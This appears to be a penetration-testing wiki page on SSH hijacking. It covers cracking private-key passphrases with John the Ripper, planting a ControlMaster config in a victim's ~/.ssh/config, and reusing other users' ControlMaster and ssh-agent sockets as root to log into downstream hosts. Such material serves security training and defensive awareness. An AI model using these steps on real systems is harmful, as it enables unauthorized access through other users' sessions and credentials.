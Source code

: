 # SSH Hijacking

The term SSH hijacking refers to the <mark style="color:green;">**use of an existing SSH connection to gain access to another machine.**</mark> Two of the most common methods of SSH hijacking use the `ControlMaster` feature or the `ssh-agent`.

## <mark style="color:red;">Crack Private Key</mark>

If we find some user's password-protected private SSH key, we can attempt to crack it with JTR.

first convert the key to a crackable format:

```
python /usr/share/john/ssh2john.py private.key > private.hash
```

run JTR with a wordlist:

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./private.hash
```

after successfully cracking the key, use ssh with -i option to login to the remote system with that private key and then specify the cracked password.

```
ssh -i private.key victim@target
```

## &#x20;<mark style="color:red;">ControlMaster</mark>

### <mark style="color:orange;">Non-root Scenario</mark>

ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network connection. <mark style="color:green;">**This functionality can be enabled for a given user by editing their local SSH configuration file (\~/.ssh/config).**</mark>

This file can be created or modified by users with elevated privileges or write access to the user’s home folder. By doing so, we can create an attack vector when there wasn’t one originally, by enabling ControlMaster functionality for an unwitting user.

create the `~/.ssh/config` file:

```
Host *
    ControlPath ~/.ssh/target/%r@%h:%p
    ControlMaster auto
    ControlPersist 10m
```

* <mark style="color:green;">host \*</mark> --> this config is for all hosts
* <mark style="color:green;">ControlPath</mark> --> path for target system socket file with the name `<remoteusername@<targethost>:<port>`  . this assumes that the `target` folder already exists.
* <mark style="color:green;">ControlMaster</mark> --> identifies that any new connections will attempt to use existing ControlMaster sockets when possible. When those are unavailable, it will start a new connection.
* <mark style="color:green;">ControlPersist -</mark>-> can either be set to “yes” or to a specified time. If it is set to “yes”, the socket stays open indefinitely. Alternatively, it will accept new connections for a specified amount of time after the last connection has terminated. In the above configuration, the socket will remain open for 10 minutes after the last connection and then it will close.

{% hint style="info" %}
These ControlMaster settings can also be placed in `/etc/ssh/ssh_config` to configure ControlMaster at a system-wide level.
{% endhint %}

set the correct permission on the config file:

```
chmod 644 ~/.ssh/config
```

create the `target` folder:

```
mkdir ~/.ssh/target
```

after a user has established a legitimate SSH session from the compromised machine, a socket file will be created in the `target` folder.&#x20;

```
ls -al ~/.ssh/target/
```

This socket file represents the legitimate SSH session to the downstream server.&#x20;

now, if we simply SSH to the server listed in the victim’s socket file, we will not be prompted for a password and are given direct access to the target machine via SSH.

### <mark style="color:orange;">root Scenario</mark>

In the this scenario, we’re logged in as a root user (or someone with sudo privileges). <mark style="color:green;">**In this case, we can use the -S switch to use the socket created for any compromised user on that system.**</mark>

```
ssh -S /home/user1/.ssh/target/user2\@target_ip\:22 user2@target_ip
```

## <mark style="color:red;">SSH-Agent and SSH Agent Forwarding</mark>

### <mark style="color:orange;">Non-root Scenario</mark>

SSH-Agent is a utility that keeps track of a user’s private keys and allows them to be used without having to repeat their passphrases on every connection.

SSH agent forwarding is a mechanism that <mark style="color:green;">**allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine.**</mark> This is useful in situations where a user might need to ssh from an intermediate host into another network segment, which can’t be directly accessed from the originating machine. It has the advantage of not requiring the private key to be stored on the intermediate server and the user does not need to enter their passphrase more than once.

<mark style="color:green;">**This works by passing the SSH key response requests from the remote destination servers back through the SSH-Agent on the intermediate hosts to the originating client’s SSH Agent for key validation.**</mark>

To use an SSH-Agent, there needs to be an SSH keypair set up on the originating machine.

For our SSH connections to work using SSH-Agent forwarding, we need to have our public key installed on both the intermediate server and the destination server.

We can copy our key to both of them using the ssh-copy-id command from attacking machine:

{% hint style="danger" %}
#### remember to set a passphrase for the key, otherwise, the ssh agent cant keep track of the connections.
{% endhint %}

```
ssh-copy-id -i ~/.ssh/id_rsa.pub user1@compromised
ssh-copy-id -i ~/.ssh/id_rsa.pub user2@target
```

we need to set our local SSH config file in \~/.ssh/config on our attacking machine to have the following line:

```
ForwardAgent yes
```

This tells the SSH client we’re connecting from to enable agent forwarding for connections.

Next, on the intermediate server,we need to have the following line set in `/etc/ssh/sshd_config`.

```
AllowAgentForwarding yes
```

This allows the intermediate server to forward key challenges back to the originating client’s SSH agent.

SSH-Agent is automatically set to run on many Linux distributions, to start it manually on our attack machine:

```
eval `ssh-agent`
```

We can now add our keys to the SSH-Agent on our attack machine using ssh-add.If we just want to use the key that is in the default key location (\~/.ssh/id\_rsa), we don’t need to specify any parameters. Alternatively, we can add the path to the key file we want to use immediately after the command. In our case, since our key is in the default location, we can just run ssh-add.

```
ssh-add
```

Now that our key is registered with the agent, all we need to do to connect to the downstream server is a pair of ssh commands. We’ll first ssh to the intermediate and then from there to the target host.

```
ssh user1@compromised
ssh user2@target
```

{% hint style="info" %}
#### we’ll need to type our private key passphrase for the first connection so that the SSH- Agent can keep track of it.
{% endhint %}

we have compromised the account of a user who is logged in to the intermediate server. since the intermediate system acts as if we already have the user’s SSH keys available, we can SSH to any downstream server the compromised user’s private key has access to.

{% hint style="info" %}
#### To exploit this, the compromised user needs to have an active SSH connection to the intermediate server.
{% endhint %}

### <mark style="color:orange;">root Scenario</mark>

The SSH-Agent mechanism creates an open socket file on the intermediate server that can be accessed by users with elevated permissions. If we’ve compromised an account with root level access on the intermediate server, we can leverage the victim user’s open socket directly.

To perform this:

First determine the SSH process ID:

```
ps aux | grep sshd
pstree -p user1 | grep ssh
```

Then find the SSH\_AUTH\_SOCK environment variable for the sshd

```
grep SSH_AUTH_SOCK /proc//environ
```

Then hijack the ssh-agent socket:

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l
```

Finally, we can log into the remote system our victim is logged into:

```
ssh remotesystem -l victim
```

{% embed url="https://jekhokie.github.io/linux/ssh/security/hijacking/2019/09/07/ssh-agent-hijacking.html" %}

{% embed url="https://hx015.medium.com/ssh-session-hijack-analytic-a2c684ba410f" %}
